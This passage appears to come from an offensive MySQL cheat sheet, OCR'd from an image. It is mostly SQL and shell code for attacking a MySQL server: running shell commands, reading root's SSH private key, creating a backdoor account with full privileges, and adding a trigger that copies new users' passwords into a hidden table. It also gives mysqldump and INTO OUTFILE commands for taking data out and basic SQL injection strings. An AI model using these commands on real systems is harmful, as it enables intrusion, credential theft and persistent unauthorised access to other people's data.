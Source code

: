 **If MySQL runs as root:**
```sql
SELECT user();  -- Check user
\! whoami       -- Execute shell command
```

If MySQL process runs as root, file operations have elevated privileges.

**Extract root's SSH key:**
```sql
SELECT LOAD_FILE('/root/.ssh/id_rsa');
```

## Persistence

**Create backdoor user:**
```sql
CREATE USER 'backdoor'@'%' IDENTIFIED BY 'P@ssw0rd123';
GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';
FLUSH PRIVILEGES;
```

**Create trigger for persistence:**
```sql
CREATE TRIGGER backdoor_trigger BEFORE INSERT ON users
FOR EACH ROW INSERT INTO backdoor_table VALUES (NEW.username, NEW.password);
```

## Data Exfiltration

**Export entire database:**
```bash
mysqldump -h $IP -u root -ppassword database_name > dump.sql
```

**Export specific table:**
```bash
mysqldump -h $IP -u root -ppassword database_name table_name > table_dump.sql
```

**Export to CSV:**
```sql
SELECT * FROM users INTO OUTFILE '/tmp/users.csv'
FIELDS TERMINATED BY ','
ENCLOSED BY '"'
LINES TERMINATED BY '\n';
```

## SQL Injection (If Web App Uses MySQL)

**Test in web applications:**
```
' OR 1=1--
" OR 1=1--
' UNION SELECT 1,2,3--
' UNION SELECT user(),database(),version()--
```
